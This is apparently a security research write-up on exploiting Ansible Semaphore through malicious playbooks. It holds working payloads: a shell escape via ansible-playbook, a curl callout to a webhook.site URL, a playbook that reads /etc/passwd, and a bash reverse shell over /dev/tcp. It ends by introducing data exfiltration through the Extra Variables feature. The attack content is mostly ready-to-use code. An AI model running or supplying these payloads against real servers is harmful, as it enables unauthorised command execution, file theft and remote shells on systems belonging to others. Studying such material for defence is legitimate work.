 ```bash
TF=$(mktemp)
echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
ansible-playbook $TF
```

### Server-Side Request Forgery (SSRF)

```bash
TF=$(mktemp)
echo '[{hosts: localhost, tasks: [shell: curl https://webhook.site/22cbe5dd-bcc8-400c-8097-71f166629b25 </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
ansible-playbook $TF
```

With this knowledge, I can create the following malicious playbooks. When they are run directly from Ansible Semaphore, they let you read sensitive files on the server, make requests as the host, and even get a reverse shell.

### ssrf.yaml
```yaml
[{hosts: localhost, tasks: [shell: curl https://webhook.site/22cbe5dd-bcc8-400c-8097-71f166629b25 </dev/null >/dev/null 2>/dev/null]}]
```

### passwd.yaml

```yaml
- hosts: localhost
  tasks:
    - name: Show passwd file
      command: "cat /etc/passwd"
```

### reverse-shell.yaml

```yaml
[{hosts: localhost, tasks: [shell: bash -c 'exec bash -i &>/dev/tcp/127.0.0.1/1337 <&1']}]
```

However, for an attacker to be able to do this, they first need to have access to the repository from which Ansible Semaphore loads the scripts, and that's not always possible.

## Data Exfiltration Using The Extra Variables Feature

Ansible Semaphore includes a feature called "Extra Variables." This feature can be accessed at `https://<semaphore-endpoint>/project/id/environment` and is directly associated with the ansible-playbook `--extra-vars` flag.

![Extra Variables feature on semaphore](/images/semaphore_extra_vars.png)

Ansible extra variables are variables that can be fed into an Ansible playbook during runtime. They can serve to override default values or supply additional information that the playbook does not contain. Extra variables can be passed through the command line or within a YAML file.
